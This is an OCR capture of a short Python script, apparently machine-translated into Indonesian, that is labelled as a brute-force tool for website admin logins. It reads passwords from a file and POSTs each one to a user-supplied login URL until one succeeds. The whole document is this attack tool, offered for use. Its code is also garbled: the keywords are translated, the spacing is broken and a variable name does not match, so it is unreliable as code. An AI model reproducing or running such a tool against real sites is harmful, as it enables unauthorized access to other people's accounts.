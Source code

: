 #coding oleh Ipan ID
#CYBER TERSENDIRI

impor  os
 permintaan impor

g  =  ' \ 033 [32; 1m'
w  =  ' \ 033 [37; 1m'
y  =  ' \ 033 [33; 1m'

logo  = ( "" "
\ 033 [33; 1m
╔═╗╔╦╗╔╦╗╔═╗╔═╗╦╔═ ╔═╗╔╦╗╦ ╔═╗╔═╗
╠═╣ ║ ║ ╠═╣║ ╠╩╗ ─── ╠═╣ ║║║ ║ ║║ ╦
╩ ╩ ╩ ╩ ╩ ╩╚═╝╩ ╩ ╩ ╩═╩╝╩═╝╚═╝╚═╝
          \ 033 [37; 1mBRUTE FORCE A SITUS ADMIN-LOGIN
"" " )
cetak ( logo )
url  =  input ( w  +  "situs web:"  +  g )

pengguna  =  masukan ( w  + "nama pengguna:"  +  g )
password  =  buka ( 'password.txt' , 'r' )

untuk  o  dalam  kata sandi . garis baca ():
        pw  =  o . strip ()

        http  =  permintaan . posting ( url , data = { 'user' : user , 'password' : pw , 'submit' : 'submit' })
        k  =  http . kandungan

        jika  "benar"  di  str ( k ):
          cetak ( g  +  "berhasil:"  +  y , pw )
          istirahat
        lain :
          cetak ( w  +  "tidak ada:"  +  g , pw )
